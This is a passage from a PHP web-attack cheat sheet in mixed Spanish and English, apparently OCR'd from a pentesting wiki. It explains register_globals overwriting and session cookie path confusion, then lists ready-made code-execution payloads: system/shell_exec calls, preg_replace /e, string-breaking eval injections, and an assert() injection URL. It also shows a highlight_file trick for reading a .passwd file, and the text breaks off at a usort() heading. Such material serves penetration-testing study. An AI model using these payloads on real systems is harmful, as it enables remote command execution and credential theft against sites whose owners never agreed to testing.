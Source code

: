 register_globals: En PHP < 4.1.1 o si se ha configurado mal puede ser que las register_globals estén activas (o se esté imitando su comportamiento). Esto implica que en variables globales como $_GET si estas poseen un valor por ejemplo $_GET["param"]="1234", puedes acceder a este mediante $param. Por lo tanto, enviando parámetros de Get o Post se pueden sobreescribir variables que se usan dentro del código.

Las variables de sesión (asociadas al PHPSESSION) de un dominio se guardan en el mismo sitio, por lo tanto si dentro de un dominio se usan distintas cookies en distintos paths se puede hacer que un path acceda a la cookie del otro accediendo a dicho path con la cookie del otro. De esta forma si los dos paths acceden a una variable con el mismo nombre puedes hacer que el valor de dicha variable en el path1 se aplique al path2. Y entonces el path2 tomará como válidas las variables del path1 (al ponerle a la cookie el nombre que le corresponde en el path2).

Dos usuarios generados a la vez pueden tener la misma cookie (si la cookie depende del tiempo).

When you have the usernames of teh users of the machine. Check the address: /~<USERNAME> to see if the php directories are activated.

​LFI and RCE using php wrappers​
Code execution

system("ls");
`ls`;
shell_exec("ls");

​Check this for more useful PHP functions​
Code execution using preg_replace()

preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")

To execute the code in the "replace" argument is needed at least one match.
This option of preg_replace has been deprecated as of PHP 5.5.0.
Code execution with Eval()

'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>

Code execution with Assert()

Esta función dentro de php permite ejecutar código que está escrito en un string con el objetivo de que se devuelva true o false (y dependiendo de esto alterar la ejecución). Por lo general se introducirá la variable del usuario entre medias de un string. Por ejemplo: assert("strpos($_GET['page']),'..') === false") --> En este caso el payload para ejecutar un comando podría ser:

?page=a','NeVeR') === false and system('ls') and strpos('a

El caso es que hay que romper la query, ejecutar algo y volver a arreglarla (para ello nos servimos del "and" o "%26%26" o "|" --> el "or", "||" no funcionan pues si la primera es cierta deja de ejecutar y el ";" no funciona pues solo ejecuta la primera parte).

Other option is to add to the string the execution of the command:  '.highlight_file('.passwd').'

Other option (if you have the internal code) is to modify some variable to alter the execution: $file = "hola"
Code execution with usort()
